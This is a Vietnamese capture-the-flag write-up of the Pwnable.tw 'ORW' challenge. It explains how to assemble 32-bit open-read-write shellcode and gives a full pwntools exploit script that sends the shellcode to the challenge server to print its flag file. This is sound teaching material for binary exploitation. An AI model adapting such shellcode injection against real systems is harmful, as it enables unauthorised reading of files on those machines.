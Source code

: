 ### Pwnable.tw - ORW

# Preview 


![image](https://user-images.githubusercontent.com/90976397/176607610-e7504449-83a8-4102-a551-27399b28e04f.png)

Đây là câu thứ 2 trên Pwnable.tw và cũng là câu thứ 2 mà mình viết trong series này. 

Đây là một câu khá cơ bản trong mảng pwnable, chỉ đòi hỏi về kỹ năng viết assembly code.

Ở bài trước mình đã nói, assembly code rất là quan trọng trong mảng này, chừng nào còn đụng đến binary là còn đụng đến assembly code :D, vì thế nên hãy học assembly code một cách nghiêm túc.

![image](https://user-images.githubusercontent.com/90976397/176624348-f5b82f50-f67c-4826-ac89-cabfa564642a.png)

Tải file về rồi kiểm tra xem loại file và những cơ chế bảo mật nào được enable.

![image](https://user-images.githubusercontent.com/90976397/176624755-231c9ac4-9669-4340-b294-183c3231f7f9.png)

Một file ELF 32-bit LSB executable và không bị stripped

![image](https://user-images.githubusercontent.com/90976397/176625135-678c3bb1-7f60-4ef4-97ad-6bd6039db2a5.png)

Dường như chỉ có mỗi canary là được bật, ở bài trước mình đã nói sơ sơ về cơ chế Non-Executable, ở bài này NX disable thì hiển nhiên việc chúng ta sẽ làm đó là cần phải viết shellcode rồi :) viết sao thì ở dưới mình sẽ nói rõ.  

![EXfRo89XYAA-J5v](https://user-images.githubusercontent.com/90976397/176627953-76c18257-2360-4301-89d5-a404eab127a7.jpg)

# Analyze 

Mở IDA/Ghidra để xem thử bên trong nó có gì 
Btw, một lần nữa, mình khuyến khích các bạn nên đọc assembly code thay vì đọc pseudocode nhé, giúp ích nhiều lắm đấy 

![image](https://user-images.githubusercontent.com/90976397/176628953-4e10f5d3-b12d-4767-9a92-5f5c1751eb0e.png)

Dường như trong hàm main không có gì đặc biệt, chỉ là in ra dòng chữ "Give me your shell code: " rồi cho chúng ta nhập input vào.

Ở bài này thực sự không có gì nhiều để nói, nhưng mình sẽ cố gắng giải thích chi tiết để cho bạn hiểu rõ hơn về dạng bài viết assembly code nhé :).


# Exploit 

![image](https://user-images.githubusercontent.com/90976397/176630907-17df1123-de8d-4280-bce0-5b2a5634bb85.png)

Như description của bài này thì chúng ta có thể thấy nó đã chỉ cách làm bài này cho mình luôn rồi 

![image](https://user-images.githubusercontent.com/90976397/176631232-51a481c2-1239-43cf-916e-8933a5e29381.png)

Chỉ cần mở, đọc, in ra flag :) easy phải không ?

![75720175](https://user-images.githubusercontent.com/90976397/176632083-c218dd14-ac59-493c-9a7c-b8d03cb661e1.jpg)


Đầu tiên là push flag vào stack

Flag nằm ở ///home/orw/flag

Vì đây là cấu trúc 32-bit thế nên là phải đổi chuỗi "///home/orw/flag" sang hex và vì 32-bit nên chỉ push 4 byte một, ngoài ra đọc theo little-endian
"///home/orw/flag" đổi sang "galf/wro/emoh///"(vì đọc theo dạng byte little-endian) đổi sang mã hex là "67616c66 2f77726f 2f656d6f 682f2f2f"
```
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h
```
Bây giờ cứ theo mô tả cả đề và từng bước đề đã nói mà làm thôi

Open
```
shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước
```
Read
```
shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall
```
Write

```
shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
```
Và cuối cùng chỉ cần execute cái shell này và chúng ta đã có được flag

![image](https://user-images.githubusercontent.com/90976397/176654117-d45db29d-e594-410e-a2e3-41e2332d700a.png)

full script: 
```
from pwn import * 

r = remote("chall.pwnable.tw",10001)
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h

shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước 

shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall

shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
print(shellcode)
r.sendline((shellcode))

r.interactive()
```

Thực chất thư viện pwntools rất là mạnh, nó cung cấp cho chúng ta rất là nhiều công cụ để giải một câu pwn. Ở câu này chúng ta có thể sử dụng module pwntools như sau: 

```
shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
```
Chỉ cần 4 dòng, ngắn hơn rất nhiều so với cái ở trên. Nhưng cái gì cũng có cái giá của nó, trước khi bạn sử dụng những công cụ có sẵn như này thì bạn phải thuần thục ngôn ngữ assembly đã, không nên dựa dẫm quá nhiều vào những cái có sẵn. 

Peace~





